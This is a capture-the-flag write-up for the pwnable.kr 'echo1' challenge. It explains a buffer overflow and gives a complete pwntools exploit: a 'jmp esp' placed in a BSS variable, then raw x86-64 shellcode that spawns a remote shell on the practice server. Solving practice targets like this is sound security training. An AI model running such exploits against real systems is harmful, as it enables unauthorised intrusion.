 # 33 - echo1

## The Challenge

Pwn this echo service.

download : [http://pwnable.kr/bin/echo1](http://pwnable.kr/bin/echo1)

Running at : nc pwnable.kr 9010

## The Solution

By running the binary we learned that:

* We can input a name
* Three options are given to us:
  * only the first option is implemented, and it's named bof \[lol\]
* We can exit the program and then decline. This behavior is more relevant to echo2, but if we exit after declining we get a nice print of the memory mapping. It teaches us that **ASLR is turned on**.

After further debugging we learned that:

* No other protection is turned on
* There is no overflow in the name input. The first four characters are stored in a variable named "id" in the BSS section. This section isn't affected by ASLR, and in this binary, it is executable too!
* Not very surprising, we can BOF in the "bof" input

The attack becomes clear now:

* The buffer overflow will be made of a buffer + address of "id" + shellcode
* "id" would contain 'jmp esp', thus redirect us to the shellcode

```text
#!/usr/bin/python3

from pwn import *

offset = b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ'
jmp_address = p64(0x6020a0)
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

p = remote('pwnable.kr', 9010)
p.sendline(b'\xFF\xE4') # jmp esp
p.sendline(b'1')
p.sendline(offset + jmp_address + shellcode)
p.recvrepeat(1)
p.interactive()
```

